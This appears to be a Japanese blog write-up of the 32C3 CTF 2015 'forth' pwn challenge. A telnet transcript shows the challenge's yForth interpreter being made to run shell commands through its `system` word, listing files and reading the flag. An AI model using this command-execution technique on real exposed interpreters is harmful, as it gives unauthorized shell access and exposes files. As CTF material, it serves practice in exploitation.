 ```yaml
---
layout: post
alias: "/blog/2016/01/02/32c3-ctf-forth/"
title: "32C3 CTF forth"
date: 2016-01-02T23:19:54+09:00
tags: [ "ctf", "pwn", "writeup", "forth", "xinetd" ]
---
```


## [pwn 150: forth](https://github.com/ctfs/write-ups-2015/tree/master/32c3-ctf-2015/pwn/forth-150)

>   Connect to 136.243.194.49:1024 and get a shell.

本番中に解けた。

forthのinterpreterに繋がっているので、`system`を叩けばよい。
真面目にforthの命令で出力させようとして、`[open-file] error(2): unknown word.`とか言われforthのmanual読みながら頑張っていたりしたので、それなりに苦労した。

``` sh
$ telnet 136.243.194.49 1024
Trying 136.243.194.49...
Connected to 136.243.194.49.
Escape character is '^]'.
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
s" ls" system
flag.txt  README.gpl  run.sh  yforth
ok
ok
s" cat flag.txt" system
32C3_a8cfc6174adcb39b8d6dc361e888f17b
ok
ok
^]
telnet> quit
Connection closed.
```
